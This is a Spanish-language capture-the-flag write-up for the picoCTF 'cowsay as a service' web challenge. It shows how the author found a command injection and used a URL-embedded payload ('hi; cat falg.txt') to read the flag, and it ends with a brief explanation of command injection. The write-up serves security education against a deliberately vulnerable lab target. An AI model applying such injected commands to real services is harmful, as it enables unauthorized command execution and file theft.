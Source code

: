 ## Descripción 
```
Now presenting [cowsay as a service](https://caas.mars.picoctf.net/)

---

|Challenge Endpoints|
|---|
|Download index.js|[index.js](https://artifacts.picoctf.net/picoMini+by+redpwn/Web+Exploitation/caas/index.js)|
```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#objetivo)
## Solución
```
Ejecuté el comando “ [https://caas.mars.picoctf.net/cowsay/h](https://caas.mars.picoctf.net/cowsay/h) i”: 
 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
ejecute `ls`y obtuve este resultado:
Cow files in /usr/share/cowsay/cows:
apt bud-frogs bunny calvin cheese cock cower daemon default dragon
dragon-and-cow duck elephant elephant-in-snake eyes flaming-sheep
ghostbusters gnu hellokitty kangaroo kiss koala kosh luke-koala
mech-and-cow milk moofasa moose pony pony-smaller ren sheep skeleton
snowman stegosaurus stimpy suse three-eyes turkey turtle tux unipony
unipony-smaller vader vader-koala www.
Entoces hay una inyección de comando, por lo que coloque lo siguiente:
https://caas.mars.picoctf.net/cowsay/hi;%20cat%20falg.txt y obtuve: 
 ____
< hi >
 ----
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
Y listo encontramos la bandera.


flag:picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}

```
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#soluci%C3%B3n)

## Notas Adicionales
¿Qué es una inyección de comando?

La inyección de comandos es un ataque cuyo objetivo es la ejecución de comandos arbitrarios en el sistema operativo host a través de una aplicación vulnerable. Los ataques de inyección de comandos son posibles cuando una aplicación pasa datos no seguros proporcionados por el usuario (formularios, cookies, encabezados HTTP, etc.) a un shell del sistema. En este ataque, los comandos del sistema operativo proporcionados por el atacante se ejecutan generalmente con los privilegios de la aplicación vulnerable. Los ataques de inyección de comandos son posibles en gran medida debido a una validación de entrada insuficiente.
[](https://github.com/armandoportillo0101/Seguridad-de-Redes/blob/main/Plantilla.md#notas-adicionales)

### Referencias